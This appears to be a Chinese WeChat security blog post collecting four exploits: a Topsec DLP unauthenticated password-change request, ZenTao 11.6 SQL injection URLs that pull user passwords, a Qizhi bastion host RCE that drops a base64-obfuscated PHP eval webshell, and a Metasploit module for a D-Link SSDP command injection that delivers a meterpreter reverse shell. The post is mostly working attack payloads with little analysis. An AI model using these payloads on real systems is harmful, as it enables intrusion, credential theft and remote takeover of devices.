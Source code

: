 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/icgOpX8ofLIoO8nehsMarA)

![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yb8EPbHU4n74qm5EttNlia7ibLCbVLrh5l1e0NygtU0xGD7aMbwcfXXEtEs3PvwCDiaA4RRXiaKqICFw/640?wx_fmt=png)

**0x01 天融信 DLP 未授权 & 越权漏洞  
**

```
## 默认用户
superman --- uid=1
```

```
## Payload
POST /?module-auth_user&action=mod_edit.pwd HTTP/1.1
```

**0x02 禅道 11.6 SQL 注入漏洞**

最新版所采用的 pathinfo 模式，首先通过传参确定进入的 control 文件為 api，对应的 method 为 getModel，接着开始对参数进行赋值，其中 moduleName 为 api，methodName=sql，最后的 param 为 sql=select+account,password+from+zt_user，那么调用了 call_user_func_array 函数后，会进入到 api 目录下的 model 文件，对应调用其中的 sql 函数 ，并通过赋值，将 sql 变量赋值为 select+ account,password+from+zt_user，最后执行 query 语句。

```
## 漏洞地址
http://xxx.xxx/zentaopms_11.6/www/api-getModel-user-getRealNameAndEmails-users=admin
http://xxx.xxx/zentaopms_11.6/www/api-getModel-api-sql-sql=select+account,password+from+zt_user
```

**0x03 齐治堡垒机前台远程代码执行漏洞**

影响版本：ShtermClient-2.1.1

```
## 漏洞利用
1.访问https://xx.xx.xx.xx/listener/cluster/_manage.php
2.生成webshell
https://xx.xx.xx.xx/ha_request.php?action=install&ipaddr=10.20.10.11&node_id=1${IFS}|`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUW3NoZWxsXSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9zaGVsbC5waHA="|base64${IFS}-d|bash`|${IFS}|echo${IFS}
```

**0x04 D-Link Devices 未经身份验证远程命令执行漏洞**

MSF EXP：

```
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::Udp
  include Msf::Exploit::CmdStager

  def initialize(info = {})
    super(update_info(info,
      'Name'        => 'D-Link Devices Unauthenticated Remote Command Execution in ssdpcgi',
      'Description' => %q{
        D-Link Devices Unauthenticated Remote Command Execution in ssdpcgi.
      },
      'Author'      =>
        [
          's1kr10s',
          'secenv'
        ],
      'License'     => MSF_LICENSE,
      'References'  =>
        [
          ['CVE', '2019-20215'],
          ['URL', 'https://medium.com/@s1kr10s/2e799acb8a73']
        ],
      'DisclosureDate' => 'Dec 24 2019',
      'Privileged'     => true,
      'Platform'       => 'linux',
      'Arch'        => ARCH_MIPSBE,
      'DefaultOptions' =>
        {
            'PAYLOAD' => 'linux/mipsbe/meterpreter_reverse_tcp',
            'CMDSTAGER::FLAVOR' => 'wget',
            'RPORT' => '1900'
        },
      'Targets'        =>
        [
          [ 'Auto',  { } ],
        ],
      'CmdStagerFlavor' => %w{ echo wget },
      'DefaultTarget'  => 0
      ))

  register_options(
    [
      Msf::OptEnum.new('VECTOR',[true, 'Header through which to exploit the vulnerability', 'URN', ['URN', 'UUID']])
    ])
  end

  def exploit
    execute_cmdstager(linemax: 1500)
  end

  def execute_command(cmd, opts)
    type = datastore['VECTOR']
    if type == "URN"
      print_status("Target Payload URN")
      val = "urn:device:1;`#{cmd}`"
    else
      print_status("Target Payload UUID")
      val = "uuid:`#{cmd}`"
    end

    connect_udp
    header = "M-SEARCH * HTTP/1.1\r\n"
    header << "Host:239.255.255.250: " + datastore['RPORT'].to_s + "\r\n"
    header << "ST:#{val}\r\n"
    header << "Man:\"ssdp:discover\"\r\n"
    header << "MX:2\r\n\r\n"
    udp_sock.put(header)
    disconnect_udp
  end
end
```

有点安静了... 有分享情报的吗![](https://mmbiz.qpic.cn/mmbiz_png/ccX15AUPS2yHqk6Ck13IlYIPQKxm0UI8Bf96EL6LiceN36ekplc860buTBib7qkt1BqBVapvqJUt4ibqSMHiciaFpug/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/ccX15AUPS2yHqk6Ck13IlYIPQKxm0UI8FnnBibibdOgXFb6EKlsY7KROdTfxVicjfMS41byYHnFBpQCHxa2s1tfZQ/640?wx_fmt=jpeg)
